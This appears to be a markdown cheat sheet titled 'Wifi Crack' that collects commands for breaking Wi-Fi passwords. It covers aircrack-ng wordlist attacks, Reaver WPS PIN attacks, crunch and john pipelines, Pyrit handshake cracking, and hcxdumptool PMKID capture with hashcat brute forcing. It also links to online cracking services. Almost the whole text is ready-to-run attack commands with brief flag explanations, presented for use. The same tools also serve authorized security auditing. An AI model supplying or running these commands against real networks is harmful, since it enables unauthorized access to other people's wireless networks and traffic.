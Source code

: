 # Wifi Crack

## Aircrack: (Hash)

	aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk\*.cap

## Reaver: (PSK)

	reaver -i mon0 -c 6 -b 00:23:69:48:33:95 -vv
	reaver -i wlan0mon <replace with yours> -b <bssid> -c <channel no> -K 1 -vv

## Crunch & Aircrack:

	crunch 8 8 0123456789 -s 00000000 -e 99999999 | aircrack -e test proof.cap -w -

Use john to keep a session of aircrack when used with huge wordlist:

		crunch 8 8 | john --stdin --wordlist=password.lst --stdout --session=sessname | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -


## John & Aircrack:

	john --wordlist=password.lst --rules=Jumbo --stdout | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -

Use john to keep a session of aircrack when used with huge wordlist:

	john --wordlist=password.lst --rules=Jumbo --stdout --session=sessname | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -

https://wpa-sec.stanev.org/
https://github.com/danielmiessler/SecLists

## Pyrit:

Pyrit is one of the fastest tools available for WPA password-cracking out there.

One helpful tool is the strip command, which strips down long capture files to only include relevant packets. And then there's the verify option that lets Pyrit confirm results via recomputation.

Pyrit also has several features to import multiple password lists into a large database. To prevent duplicates, the import_unique_passwords command can also strip out passwords that appear multiple times in the same file we're trying to import. After we import passwords to the database, we can start cracking them with the attack_batch option.

Download a Password List & Benchmark System:

	wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt

	pyrit benchmark (benchmark our system)

	pyrit -i '/root/Desktop/probable-v2-wpa-top4800.txt' import_passwords (import passwords to the database)

Capture handshakes:

	airmon-ng start wlan0
	airodump-ng wlan0mon -c 3 -w capture
	pyrit -r '/root/Desktop/capture-01.cap' analyze (analyse captured file to show if we have a valid handshake)

Final command:

	pyrit -r capture.pcap -o savedpass attack_batch

## Hxctools & Hashcat

In this case we use Hxctools & Hashcat to capture packets and crack the password but we can do that automaticaly with wifite, if the necessary softwares are installed Wifite will automaticaly use them and give us a URL to upload the modified handshakes. Then the password cracking is performed from connected server online using different password lists.

Install Hxctools & Hashcat:

	sudo apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev
	
On your Git folder:

	git clone https://github.com/ZerBea/hcxdumptool.git
	cd hcxdumptool
	sudo make
	sudo make install

On your Git folder:

	git clone https://github.com/ZerBea/hcxtools.git
	cd hcxtools
	sudo make
	sudo make install

	apt install hashcat

Use Hxcdump to Capture PMKIDs from Local Networks

	airmon-ng start wlan0
	
	hcxdumptool -i wlan0mon -o galleria.pcapng --enable__status=1

-i tells the program which interface we are using, in this case, wlan0mon. The filename we'll be saving the results to can be specified with the -o flag argument. The channel we want to scan on can be indicated with the -c flag followed by the number of the channel to scan.

Use Hxcpcaptool to Convert the Dump for Hashcat:

To convert our PCAPNG file, we'll use hcxpcaptool with a few arguments specified. In the same folder that your .PCAPNG file is saved, run the following command in a terminal window.

	hcxpcaptool -E essidlist -I identitylist -U usernamelist -z galleriaHC.16800 galleria.pcapng

This command is telling hxcpcaptool to use the information included in the file to help Hashcat understand it with the -E, -I, and -U flags. The -Z flag is used for the name of the newly converted file for Hashcat to use, and the last part of the command is the PCAPNG file we want to convert.

Select a Password List & Brute Force with Hashcat:

	hashcat -m 16800 galleriaHC.16800 -a 0 --kernel-accel=1 -w 4 --force 'topwifipass.txt' > out.txt

	hashcat -m 16800 --force final.txt /home/user/Downloads/Top353Million-probable-v2.txt > out.txt

	hashcat -m 16800 --force final.txt /home/user/Downloads/Top353Million-probable-v2.txt --show
	
In this command, we are starting Hashcat in 16800 mode, which is for attacking WPA-PMKID-PBKDF2 network protocols. Next, we'll specify the name of the file we want to crack, in this case, "galleriaHC.16800." The -a flag tells us which types of attack to use, in this case, a "straight" attack, and then the -w and --kernel-accel=1 flags specifies the highest performance workload profile. If your computer suffers performance issues, you can lower the number in the -w argument.

Next, the --force option ignores any warnings to proceed with the attack, and the last part of the command specifies the password list we're using to try to brute force the PMKIDs in our file, in this case, called "topwifipass.txt."

Online cracking:

	https://gpuhash.me/